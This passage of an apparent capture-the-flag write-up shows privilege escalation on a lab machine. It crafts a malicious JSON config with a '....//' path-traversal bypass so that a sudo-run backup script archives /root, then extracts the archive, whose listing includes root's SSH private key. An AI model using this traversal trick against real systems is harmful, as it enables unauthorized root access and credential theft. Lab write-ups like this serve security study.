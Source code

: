 The below **JSON** file was the one that was available in the martin's home directory, under the folder `backups` and named  `task.json`:

```json
martin@code:~/backups$ cat task.json 
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/app-production/app"
        ],

        "exclude": [
                ".*"
        ]
}

```

To "exploit" the above bash script we had to create a new *"malicious*" JSON file, named it `mal.json`, with the following content:

```json
{
        "destination": "/tmp/",
        "multiprocessing": true,
        "verbose_log": true,
        "directories_to_archive": [
                "/var/....//root/"
        ]
}
```

After we ran the `/usr/bin/backy.sh` script using the `sudo` command, we had to check the  `/tmp` directory and extract the archived file which was created there:

```bash
martin@code:/tmp$ ls
code_var_.._root_2025_March.tar.bz2
martin@code:/tmp$ tar -xvjf code_var_.._root_2025_March.tar.bz2 
root/
root/.local/
root/.local/share/
root/.local/share/nano/
root/.local/share/nano/search_history
root/.selected_editor
root/.sqlite_history
root/.profile
root/scripts/
root/scripts/cleanup.sh
root/scripts/backups/
root/scripts/backups/task.json
root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
root/scripts/database.db
root/scripts/cleanup2.sh
root/.python_history
root/root.txt
root/.cache/
root/.cache/motd.legal-displayed
root/.ssh/
root/.ssh/id_rsa
root/.ssh/authorized_keys
root/.bash_history
root/.bashrc

```